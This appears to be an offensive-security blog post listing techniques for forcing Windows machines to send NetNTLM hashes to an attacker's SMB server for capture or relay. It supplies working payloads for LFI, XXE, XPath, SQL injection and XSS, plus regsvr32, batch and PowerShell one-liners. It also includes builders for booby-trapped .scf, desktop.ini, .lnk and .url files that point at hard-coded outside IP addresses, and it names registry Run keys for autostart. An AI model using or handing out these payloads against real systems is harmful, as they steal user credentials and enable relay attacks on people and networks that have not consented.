 One day me and @m3g9tr0n were discussing different places where we can use responder in stealing NetNTLM hashes. After experimenting I thought of writing this post along with some cool findings in the world of Windows. SMBRelay attacks are also possible in these scenarios.

## Note !!!
```
to crack the ntlmv2 we can use -m 5600
```
The include() in PHP will resolve the network path for us.


###  LFI

The include() in PHP will resolve the network path for us.

```c
http://host.tld/?page=//11.22.33.44/@OsandaMalith
```

### XXE

In here I’m using “php://filter/convert.base64-encode/resource=” that will resolve a network path.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=//11.22.33.44/@OsandaMalith" >
]>
<root>
  <name></name>
  <tel></tel>
  <email>OUT&xxe;OUT</email>
  <password></password>
</root>
```

### XPath Injection

Usually, doc() is used in out-of-band XPath injections, thus can be applied in resolving a network path.

```c
http://host.tld/?title=Foundation&type=*&rent_days=* and doc('//35.164.153.224/@OsandaMalith')
```

### MySQL Injection

I have written a complete post on MySQL out-of-band injections which can be applied over the internet. You can also use ‘INTO OUTFILE’ to resolve a network path.

```c
http://host.tld/index.php?id=1’ union select 1,2,load_file(‘\\\\192.168.0.100\\@OsandaMalith’),4;%00
```

### MSSQL

Since stacked queries are supported we can call stored procedures.

```c
‘;declare @q varchar(99);set @q=’\\192.168.254.52\test’; exec master.dbo.xp_dirtree
```

### Regsvr32
Accidently found this one while experimenting with .sct files.


```c
regsvr32 /s /u /i://35.164.153.224/@OsandaMalith scrobj.dll
```

### Batch
There are many possible ways you can explore


```c
echo 1 > //192.168.0.1/abc
pushd \\192.168.0.1\abc
cmd /k \\192.168.0.1\abc
cmd /c \\192.168.0.1\abc
start \\192.168.0.1\abc
mkdir \\192.168.0.1\abc
type\\192.168.0.1\abc
dir\\192.168.0.1\abc
find, findstr, [x]copy, move, replace, del, rename and many more!
```


### Shell Command Files
You can save this as something.scf and once you open the folder explorer will try to resolve the network path for the icon.


```c
[Shell]
Command=2
IconFile=\\35.164.153.224\test.ico
[Taskbar]
Command=ToggleDesktop
```

### Desktop.ini
The desktop.ini files contain the information of the icons you have applied to the folder. We can abuse this to resolve a network path. Once you open the folder you should get the hashes.

```c
mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\192.168.0.1\aa >> desktop.ini
attrib +s +h desktop.ini
```

In Windows XP systems the desktop.ini file uses ‘IcondFile’ instead of ‘IconResource’.

```c
[.ShellClassInfo]
IconFile=\\192.168.0.1\aa
IconIndex=1337
```



### Shortcut Files (.lnk)
We can create a shortcut containing our network path and as you as you open the shortcut Windows will try to resolve the network path. You can also specify a keyboard shortcut to trigger the shortcut. For the icon you can give the name of a Windows binary or choose an icon from either shell32.dll, Ieframe.dll, imageres.dll, pnidui.dll or wmploc.dll located in the system32 directory.

```
Set shl = CreateObject(&quot;WScript.Shell&quot;)
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
currentFolder = shl.CurrentDirectory

Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, &quot;\StealMyHashes.lnk&quot;))

sc.TargetPath = &quot;\\35.164.153.224\@OsandaMalith&quot;
sc.WindowStyle = 1
sc.HotKey = &quot;Ctrl+Alt+O&quot;
sc.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
sc.Description = &quot;I will Steal your Hashes&quot;
sc.Save
```

The Powershell version.
```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut(&quot;StealMyHashes.lnk&quot;)
$lnk.TargetPath = &quot;\\35.164.153.224\@OsandaMalith&quot;
$lnk.WindowStyle = 1
$lnk.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
$lnk.Description = &quot;I will Steal your Hashes&quot;
$lnk.HotKey = &quot;Ctrl+Alt+O&quot;
$lnk.Save()
[/code]
```

### Internet Shortcuts (.url)
Another shortcut in Windows is the Internet shortcuts. You can save this as something.url

```
echo [InternetShortcut] > stealMyHashes.url 
echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url
```


### Autorun with Registry
You can add a new registry key in any of the following paths.

```c
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
```



### Powershell
There are probably many scriptlets in Powershell that would resolve a network path.
```c
Invoke-Item \\192.168.0.1\aa
Get-Content \\192.168.0.1\aa
Start-Process \\192.168.0.1\aa
```

### IE
IE will resolve UNC paths. For example

```c
<img src="\\\\192.168.0.1\\aa"> 
```

You can inject under XSS or in scenarios you find SQL injection. For example.

```c
http://host.tld/?id=-1' union select 1,'<img src="\\\\192.168.0.1\\aa">';%00 
```










